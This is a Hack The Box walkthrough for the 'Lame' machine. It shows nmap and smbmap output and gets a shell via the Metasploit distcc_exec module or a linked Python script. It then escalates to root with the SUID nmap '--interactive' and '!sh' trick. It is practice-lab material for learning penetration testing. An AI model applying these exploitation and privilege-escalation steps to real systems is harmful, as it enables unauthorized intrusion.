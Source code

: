 ```yaml
---
layout: PostSimple
date: 2019-12-01
title:     "Hack The Box - Lame"
tags: ['linux','easy','SUID','cve']
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/1.png)

We are going to pwn Lame from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/1>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: remote management|WAP|printer|general purpose|power-device
Running (JUST GUESSING): Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Linux 2.4.X|2.6.X (92%), Dell iDRAC 6 (92%), Raritan embedded (92%)
OS CPE: cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:dell:idrac6_firmware cpe:/o:linux:linux_kernel:2.6.22
Aggressive OS guesses: Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Raritan Dominion PX DPXR20-20L power control unit (92%), LifeSize video conferencing system (Linux 2.4.21) (92%), Linux 2.6.23 (91%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (90%), Arris TG862G/CT cable modem (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP Enumeration

So lets start from 1st port ```ftp``` 
Lets check whether the version has any exploit available.

Since we know the verion of ``ftp`` which is ``vsftpd 2.3.4`` from nmap scan lets search for any exploits available.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/2.png)

It didn't worked, they might patched it.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/3.png)

Lets check other ports.

## SMB Enumeration

First I checked any shares available and it seems we have Read and Write access on `tmp`.
```bash
root@kali:~# smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```
I get some error if I tried connecting to it.

## Getting User Shell

We know port `3632` running `Distcc` So I googled for any exploits available and found an exploit/

> https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec

>use exploit/unix/misc/distcc_exec

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/4.png)

We got shell and found an user ``makis``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/5.png)

### Without Metasploit

There is a python script from Github
> https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855

I tried using that python script and didn't changed any and got the shell as `daemon`.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/8.png)

## Privilege Escalation

Uploaded my enumeration Script and 
Found some SETUID.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/6.png)

Lets try with ``nmap``

I searched for nmap in GTFOBins 

>https://gtfobins.github.io/gtfobins/nmap/

```
nmap --interactive
nmap> !sh
```
Using the commands

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-lame/7.png)

We got the Root!!

